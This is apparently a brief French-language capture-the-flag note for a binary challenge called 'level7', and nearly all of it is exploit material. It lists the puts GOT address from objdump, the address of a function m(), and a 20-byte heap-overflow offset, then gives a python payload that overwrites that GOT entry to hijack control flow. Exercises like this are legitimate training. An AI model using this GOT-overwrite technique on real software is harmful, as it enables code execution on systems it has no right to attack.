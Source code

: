 objdump -R ./level7 | grep puts
    08049928 R_386_JUMP_SLOT   puts

adresse GOT de puts = 0x08049928

adresse de m() = 0x080484f4 = \xf4\x84\x04\x08

heap overflow = 20 char

(python -c 'print "A"*20 + "\x28\x99\x04\x08"'; python -c 'print "\xf4\x84\x04\x08"') | xargs ./level7